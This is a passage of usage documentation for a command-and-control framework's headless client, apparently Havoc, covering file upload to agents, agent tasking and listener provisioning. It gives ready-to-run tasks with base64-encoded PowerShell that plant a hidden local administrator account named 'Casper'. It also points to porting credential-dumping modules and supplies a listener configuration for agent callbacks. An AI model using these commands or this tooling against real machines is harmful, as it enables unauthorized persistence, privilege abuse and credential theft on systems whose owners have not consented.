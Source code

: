 
Replace `<base64-data>` with the base64-encoded contents of the file you want to upload (for example, `base64 -w0 /home/kali/WptsExtensions.dll`). When you queue a download the server streams the file back through the standard transfer channel, exactly as if you had used the GUI.

### Local account management

The GUI wraps module logic around simple PowerShell or `net.exe` commands. From the headless client you can reuse the PowerShell pattern from above to create a user and add it to the Administrators group. For example:

```text
task <agent-id> 0x1010 powershell ProcCommand=4 Args=0;FALSE;TRUE;C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe;bmV0IHVzZXIgQ2FzcGVyIElhbUFHaG9zdDEyMzQ1ISEhIC9hZGQ=
task <agent-id> 0x1010 powershell ProcCommand=4 Args=0;FALSE;TRUE;C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe;bmV0IGxvY2FsZ3JvdXAgQWRtaW5pc3RyYXRvcnMgQ2FzcGVyIC9hZGQ=
```

These two tasks create the `Casper` account with the provided password and add it to the local Administrators group. Swap in any other account-management one-liners you prefer (for example `New-LocalUser` / `Add-LocalGroupMember`).

### About Python modules

Qt modules such as `samdump` run inside the GUI process and emit whatever low-level tasks the demon needs. The headless CLI does not embed the Python runtime, so module commands are unavailable unless you port their implementation into your automation. Use the C++ helpers referenced above to see which raw tasks a given module sends before recreating it in Go, Python, or another scripting language.

## Provisioning listeners and payloads

### Create listeners programmatically

The Qt client populates the `Listener.Add` payload with the same key/value pairs the dialog collects (name, bind address, host rotation, ports, proxy settings, and headers).【F:client/src/UserInterface/Dialogs/Listener.cc†L618-L697】 When the teamserver receives that package it persists the handler configuration and broadcasts the listener summary back to every client.【F:teamserver/cmd/server/listener.go†L220-L332】 The headless client can synthesise that exact package before it requests an agent build:

```json
{
  "Head": {
    "Event": 2,
    "User": "Neo",
    "Time": "06/10/2025 14:55:00"
  },
  "Body": {
    "SubEvent": 1,
    "Info": {
      "Name": "training-http",
      "Protocol": "HTTP",
      "Status": "online",
      "Secure": "false",
      "Hosts": "0.0.0.0",
      "HostBind": "0.0.0.0",
      "HostRotation": "Round-Robin",
      "PortBind": "8443",
      "PortConn": "8443",
      "Headers": "Server: training",
      "Uris": "/,/health",
      "UserAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
      "HostHeader": "training.local",
      "Proxy Enabled": "false"
    }
```